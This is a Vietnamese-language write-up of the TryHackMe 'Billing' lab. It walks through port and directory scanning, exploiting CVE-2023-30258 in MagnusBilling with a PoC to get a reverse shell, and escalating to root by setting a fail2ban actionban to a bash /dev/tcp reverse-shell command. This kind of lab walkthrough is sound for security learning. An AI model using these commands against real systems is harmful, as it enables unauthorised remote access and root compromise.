# [THM] Billing write-up

- IP: 10.10.69.178

## Recon
Đầu tiên chúng ta sẽ sử dụng công cụ nmap để dò quét các cổng và dịch vụ đang được mở

- `sudo nmap -T5 -p- --min-rate=1000 --max-retries=1 <ip-address>` quét tất cả các cổng trên địa chỉ IP với tốc độ nhanh (1000 gói tin/giây), chỉ thử lại 1 lần khi cổng không phản hồi, nhằm phát hiện nhanh các cổng mở.
- `nmap -sT -sV -sC -p22,80,3306,5038 10.10.69.178` thực hiện quét cổng TCP kết nối đầy đủ (-sT), xác định phiên bản dịch vụ (-sV), chạy các script mặc định (-sC), và chỉ quét các cổng 22, 80, 3306, 5038 trên địa chỉ IP 10.10.69.178.


Giao diện web khi truy cập địa chỉ IP với port 80

Sau khi kiếm tra và phát hiện ra file README.md. Trong file này cho ta thấy web đang sử dụng MagnusBilling 7


Tiếp theo sẽ sử dụng công cụ FFUF để tìm ra các thư mục ẩn 

`ffuf -u "http://10.10.69.178/mbilling/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt`

Khám phá các thư mục trên và khi tôi truy cập vào /mbilling/lib, tôi nhận thấy sự hiện diện của **Icepay**. Dựa trên tìm hiểu của tôi thì tôi thấy rằng CVE-2023-30258, Icepay dễ bị khai thác và lỗ hổng này được biết là ảnh hưởng tới **MagnusBilling vesions 6.x và 7.x**



## Exploit(CVE-2023-30258)
Tôi đã tìm kiếm PoC và thực hiện khai thác

Thiết lập **Netcat listener** trên kali với port 1234
> nc -lvnp 1234

Sau đó thực thi script python với câu lệnh (file script magnus_billing.py)
> python magnus_billing.py -t http://10.10.69.178/mbilling/ -lh 10.21.113.26 -lp 1234

Sau khi thực thi đã nhận được **reverse shell** để truy cập vào máy chủ với tư cách là user **asterisk**


## user.txt
Đã tìm kiếm được flag đầu tiên nằm trong file user.txt


## Privilege Escalation
Chạy lệnh `sudo -l` để kiểm tra quyền sudo cho người dùng hiện tại.

Kết quả cho thấy người dùng có thể thực thi **fail2ban-client** với tư cách là root mà không cần mật khẩu

Dựa vào bài viết [Fail2Ban – Linux Privilege Escalation](https://juggernaut-sec.com/fail2ban-lpe/) đã kiểm tra quyền thực thi của file `iptables-multiport.conf` nhưng với user hiện tại chỉ có quyền read đối với file này.


Kiểm tra file `iptables-multiport.conf` có 1 actionban. Vì Fail2ban tự động thực hiện lệnh này khi ban 1 IP nhưng không thể sửa trực tiếp ở file này được nên ta cần thực hiện câu lệnh
> sudo /usr/bin/fail2ban-client set **JAIL** action **ACT** actionban "PAYLOAD"



Ta cần xác định **JAIL** ở đây là gì. Từ kết quả ta thấy sshd đang hoạt động.


Những thông tin trên có thể tạo ra câu lệnh sau để set actionban
> sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'"

Cuối cùng chạy câu lệnh `sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1`


Khi đó ở kali lắng nghe trên port 4321 có thể truy cập vào root shell


## root.txt
Tìm kiếm và lấy được root flag được chứa trong file root.txt

